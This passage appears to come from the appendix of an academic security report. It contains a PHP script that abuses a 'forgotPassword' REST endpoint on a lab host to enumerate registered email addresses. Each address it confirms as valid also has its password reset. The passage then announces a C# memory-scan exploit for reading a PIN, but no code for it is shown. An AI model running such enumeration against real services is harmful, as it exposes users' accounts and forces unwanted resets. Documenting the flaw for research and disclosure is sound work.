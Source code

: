 This Script takes a list of email addresses and prints all of them which are already registered in the system to the shell. To do so it sends a POST Request like the scripts above to the REST Service "forgotPassword". After that it parsed the response, represented by a JSON File. If the field status of this field equals 1, the app generated a new password and sent it via email to the provided address. Else
the provided email denied.
\begin{lstlisting}
<?php

if(!$argv[1])
die("Please provide list of email adresses");
$emailList = file($argv[1], FILE_IGNORE_NEW_LINES);

echo "Valid Accounts:\n";
foreach($emailList as $email)        
if (validateEmail($email))
echo $email."\n";

function validateEmail($email) {
$service_url = 'https://192.168.56.101/rest/index';
$curl = curl_init($service_url);
$curl_post_data = array(
'service' => "forgotPassword",
'email' => $email );

curl_setopt($curl, CURLOPT_SSL_VERIFYPEER, false);
curl_setopt($curl, CURLOPT_SSL_VERIFYHOST, false);
curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
curl_setopt($curl, CURLOPT_POST, true);
curl_setopt($curl, CURLOPT_POSTFIELDS, $curl_post_data);
$curl_response = curl_exec($curl);
if ($curl_response === false) {
$info = curl_getinfo($curl);
curl_close($curl);
die('error occured during curl exec. Additioanl info: ' . var_export($info));
}
curl_close($curl);
$decoded = json_decode($curl_response,true);
if ($decoded['status']['code'] == 1) {
//die('error occured: ' . $decoded->response->errormessage);
return true;
}
else {
return false;
}
}

?>
\end{lstlisting}

\chapter{Memory Scan Exploit}

The following pages contain the C\# source code for the memory scan exploit of the Java-SCS, which reads the PIN from the memory of the SCS program.

\section{Program}

